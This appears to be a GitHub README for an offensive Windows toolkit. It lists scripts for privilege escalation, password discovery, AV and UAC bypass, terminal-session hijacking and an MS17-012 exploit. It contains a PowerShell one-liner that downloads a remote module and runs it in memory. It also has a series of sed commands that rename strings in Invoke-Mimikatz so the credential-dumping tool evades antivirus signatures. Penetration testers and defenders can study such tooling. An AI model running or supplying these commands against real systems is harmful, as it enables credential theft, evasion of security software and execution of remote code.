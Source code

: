 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



Author: Scott Sutherland 2013, NetSPI
Version: Get-SPN version 1.1
Requirements: Powershell v.3
Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
function found in Carols Perez's PoshSec-Mod project.#
Modded to bypass AV sig detection.
https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1

Get-SPM.psm1: 

IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

Mimikitten mod to avoid AV:
mimikitt.ps1


Mimikatz mod to avoid AV:
mimi.ps1

"sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions\$Win32Functions #\-/g" Invoke-Mimikatz.ps1"


Powerview mod to avoid AV:
powervw.ps1
